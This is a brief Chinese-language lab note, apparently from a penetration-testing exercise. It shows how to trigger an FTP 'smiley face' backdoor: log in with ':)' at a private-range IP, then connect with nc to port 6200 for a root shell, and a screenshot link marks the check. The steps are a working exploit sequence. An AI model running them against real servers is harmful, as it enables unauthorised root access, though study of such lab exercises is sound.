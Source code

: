 ## 笑脸漏洞获得root权限
# 漏洞利用过程
ftp 192.168.174.130  
:)  
nc 192.168.174.130 6200
# 验证
<img width="219" height="67" alt="image" src="https://github.com/user-attachments/assets/a80e9869-3abf-434d-9d4a-66fa96b62635" />
